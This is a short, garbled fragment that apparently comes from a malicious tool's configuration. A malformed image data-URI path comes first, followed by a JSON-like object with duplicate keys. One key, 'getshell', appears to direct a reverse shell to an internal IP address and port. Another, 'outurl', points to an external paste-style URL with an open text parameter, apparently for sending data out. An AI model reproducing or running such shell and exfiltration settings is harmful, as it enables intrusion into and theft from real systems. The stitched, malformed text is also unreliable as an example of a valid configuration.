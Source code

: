 {"all":{"getshell":"r t 10.2.121.222 8888~open"},"all":{"outurl":"http://kl1p.com/m9s8?save=true&id=96501&type=code&name=m9s8&nid=&param=text%2Fplain&client=web&text="}}
